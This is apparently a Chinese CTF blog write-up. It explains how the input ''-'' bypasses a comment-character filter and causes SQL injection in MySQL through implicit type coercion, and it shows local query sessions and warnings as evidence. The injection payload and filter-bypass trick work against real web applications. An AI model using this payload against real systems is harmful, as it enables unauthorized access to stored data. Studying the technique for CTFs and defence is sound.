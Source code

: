 ```yaml
---
layout:     post
title:      mysql中有趣的'-'
subtitle:   
date:       2017-04-20
author:     sp4rk
header-img: 
catalog: true
tags:
    - mysql
    - sql injection
---
```




今天在做ctf的时候碰到一个有趣的点: [题目链接](http://www.hetianlab.com/cour.do?w=1&c=C172.19.104.182014110420390600002)
在测试的时候发现其中过滤了'-- a'和#注释符
![](/img/k.jpg)

无意间输入'-',没想到直接就bypass了。
![](/img/l.png)
本地测试了下
正常的语句：


<!--more-->


mysql> select * from users where user='test';
+---------+------+----------------------------------+
| user_id | user | password                         |
+---------+------+----------------------------------+
|       1 | test | 1f903e58cd22b9d807a791d897daafb6 |
+---------+------+----------------------------------+
1 row in set (0.00 sec)
'-'测试，可以发现能注入，有两个warning
mysql> select * from users where user=''-'';
+---------+------+----------------------------------+
| user_id | user | password                         |
+---------+------+----------------------------------+
|       1 | test | 1f903e58cd22b9d807a791d897daafb6 |
+---------+------+----------------------------------+
1 row in set, 2 warnings (0.00 sec)
mysql> show warnings;
+---------+------+------------------------------------------+
| Level   | Code | Message                                  |
+---------+------+------------------------------------------+
| Warning | 1292 | Truncated incorrect DOUBLE value: 'test' |
| Warning | 1292 | Truncated incorrect DOUBLE value: 'test' |
+---------+------+------------------------------------------+
2 rows in set (0.00 sec)
显示截断了错误的DOUBLE值，我们具体看一下
mysql> select ''-'';
+-------+
| ''-'' |
+-------+
|     0 |
+-------+
1 row in set (0.00 sec)
mysql> select '1'-'1';
+---------+
| '1'-'1' |
+---------+
|       0 |
+---------+
1 row in set (0.00 sec)
mysql> select '1'-'a';
+---------+
| '1'-'a' |
+---------+
|       1 |
+---------+
1 row in set, 1 warning (0.00 sec)
可以发现当有''和字母的时候，在mysql中参与运算是取0。'-'造成注入是因为每一次查询中上面数据库中的test值会与0作比较，test就会转换成0与其匹配成功造成注入。（其他运算符也可以）
